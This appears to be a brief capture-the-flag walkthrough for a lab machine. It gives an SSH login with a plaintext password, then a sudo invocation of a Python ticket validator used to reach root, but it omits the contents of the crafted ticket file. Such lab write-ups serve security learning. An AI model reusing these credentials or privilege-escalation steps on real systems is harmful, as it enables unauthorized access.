 # Get User :
ssh development@10.10.11.100<br>
pass: m19RoAU0hP41A1sTsq6K<br>
cat user.txt<br>

# Get Root :
sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py<br>
Please enter the path to the ticket file:<br>
file.md<br>
Destination:<br>
(destination is your root flag)

